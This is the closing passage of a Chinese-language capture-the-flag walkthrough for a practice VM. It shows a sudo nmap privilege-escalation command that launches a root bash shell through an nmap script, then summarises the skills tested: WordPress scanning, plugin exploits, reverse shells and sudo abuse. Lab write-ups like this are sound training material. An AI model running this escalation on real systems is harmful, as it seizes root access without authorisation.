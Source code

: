 采用第一种方式进行提取，这里需要注意，使用这个提取后，**用户输入什么命令，都是不会显示的**，只会显示结果的返回

```shell
TF=$(mktemp)
echo 'os.execute("/bin/bash")' > $TF
sudo nmap --script=$TF
```

![](./pic-6/26.jpg)



> 清理痕迹这里就不说了，因为不显示输入，没什么效果

# 总结

该靶机主要考察以下几点：

1. 对于网站CMS  `wordpress`的了解，以及针对其CMS的工具`wpscan`的使用
2. 对于无可利用点的使用，密码本可能是关键点
3. 对于插件漏洞的搜索与使用，这里借助`searchsploit`搜索
4. 命令执行的利用，以及反弹`shell`的几种方式
5. 文件所属者、文件所属组、以及用户所属组的关系，这会间接的确定文件的权限问题
6. `sudo`的提取，指定用户，即以指定用户的身份执行，或者直接以`root`的身份去执行






